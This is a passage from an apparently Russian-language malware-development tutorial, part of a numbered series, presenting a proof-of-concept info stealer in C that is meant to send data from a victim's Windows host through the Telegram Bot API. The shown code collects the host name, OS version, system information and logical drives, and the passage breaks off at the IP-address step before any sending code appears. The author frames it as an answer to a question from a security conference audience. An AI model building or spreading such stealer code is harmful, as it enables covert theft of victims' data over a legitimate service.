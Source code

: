 \newpage
\subsection{51. трюк разработки вредоносного ПО. Кража данных через легитимный Telegram API. Простой пример на C.}

﷽

![вредоносное ПО](./images/124/2024-06-17_14-44.png){width="80%"}      

На одной из моих последних презентаций на конференции [BSides Prishtina](https://bsidesprishtina.org/) аудитория задала вопрос, как злоумышленники используют легитимные сервисы для управления вирусами (C2) или кражи данных с хоста жертвы.    

Этот пост просто демонстрирует простой Proof of Concept использования Telegram Bot API для кражи информации с Windows-хоста.    

### практический пример

Представим, что мы хотим создать простой стилер, который будет отправлять нам данные о хосте жертвы. Что-то простое, например, информацию о системе и адаптерах:    

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
```